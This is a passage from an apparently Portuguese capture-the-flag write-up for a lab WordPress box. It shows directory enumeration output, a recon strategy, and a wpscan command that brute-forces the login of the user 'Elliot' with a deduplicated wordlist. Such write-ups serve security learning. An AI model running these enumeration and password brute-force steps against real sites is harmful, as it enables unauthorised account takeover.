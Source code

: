 ```
+ http://10.10.210.211/wp-config (CODE:200|SIZE:0)                          
                                                                             ==> DIRECTORY: http://10.10.210.211/wp-content/
+ http://10.10.210.211/wp-cron (CODE:200|SIZE:0)                            
                                                                             ==> DIRECTORY: http://10.10.210.211/wp-includes/
+ http://10.10.210.211/wp-links-opml (CODE:200|SIZE:227)                    
+ http://10.10.210.211/wp-load (CODE:200|SIZE:0)                            
+ http://10.10.210.211/wp-login (CODE:200|SIZE:2671)                        
+ http://10.10.210.211/wp-mail (CODE:500|SIZE:3064)                         
+ http://10.10.210.211/wp-settings (CODE:500|SIZE:0)                        
+ http://10.10.210.211/wp-signup (CODE:302|SIZE:0)                          
+ http://10.10.210.211/xmlrpc (CODE:405|SIZE:42)                            
+ http://10.10.210.211/xmlrpc.php (CODE:405|SIZE:42)                        
                                                                            
---- Entering directory: http://10.10.210.211/0/ ----
                                                                             + http://10.10.210.211/0/atom (CODE:301|SIZE:0)                             
                                                                             ==> DIRECTORY: http://10.10.210.211/0/feed/
+ http://10.10.210.211/0/index.php (CODE:301|SIZE:0)                        
+ http://10.10.210.211/0/rdf (CODE:301|SIZE:0)                              
+ http://10.10.210.211/0/rss (CODE:301|SIZE:0)                              
+ http://10.10.210.211/0/rss2 (CODE:301|SIZE:0)                             
                                                                            
---- Entering directory: http://10.10.210.211/admin/ ----                                                           
^C> Testing: http://10.10.210.211/admin/about 
```

Estratégia:

- Verificar portas abertas
- Analisar possíveis diretórios
- utilizar o nikto
- fazer varredura nas imagens do site assim que tiver acesso à pasta
- Usar user-agent especificado

Fiz o download da wordlist especificada e tratei de eliminar todas as duplicatas da lista.

```
sort fsocity.dic | uniq > fsocity-sorted.dic
```

E depois disso, tentei utilizar força bruta para identificar o login e senha. Testei alguns nomes comuns na série e vi Elliot como o login. Depois disso eu rodei o wpscan

```
wpscan --url http://10.10.228.141/wp-login.php?action=lostpassword --usernames Elliot --passwords fsocity-sorted.dic
```

```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

```